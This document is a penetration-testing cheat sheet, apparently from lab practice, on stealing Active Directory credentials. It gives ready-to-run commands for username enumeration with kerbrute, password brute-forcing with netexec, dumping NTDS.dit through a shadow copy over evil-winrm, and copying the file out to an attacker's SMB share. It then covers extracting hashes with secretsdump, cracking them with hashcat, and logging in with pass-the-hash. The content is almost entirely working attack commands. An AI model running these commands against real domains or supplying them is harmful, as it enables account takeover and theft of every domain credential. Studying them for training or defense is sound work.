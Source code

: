 ```yaml
---
title: Active Directory NTDS Dumping
category: Post-Exploitation
tags: [active-directory, ntds, credential-dumping, impacket, evil-winrm]
tools: ['kerbrute', 'username-anarchy', 'netexec', 'evil-winrm', 'hashcat']
---
```

# Active Directory CReds and NTDS.dit

## Username dictionary attacks against AD accounts

### Creating a custom list of usernames

Create a list of usernames knowing common naming conventions --> names.txt --> automated list generator

- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
- [Kerbrute](https://github.com/ropnop/kerbrute)

```bash
# Anarchy
./username-anarchy -i /home/ltnbob/names.txt 

# Enumerate valid names with Kerbrute
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain example.local names.txt
```

### Launching a brute-force attack with NetExec

Use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller.

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit

- [Pentest Everythng - NTDS](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/ntds)
- %systemroot%/ntds

### Fast method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Connecting to a DC with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

To make a copy of the NTDS.dit file, we need local admin.

```powershell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# Checking local group membership
net localgroup

# Checking user account privileges including domain
net user bwilliamson

# Creating shadow copy of C:
vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Back to evil
C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

## Cracking hashes and gaining credentials

Create a text file with all the hashes - or do one at a time

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass the Hash (PtH) considerations

PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM uses an encrypted challenge,to the secured NTLM credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. 

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```



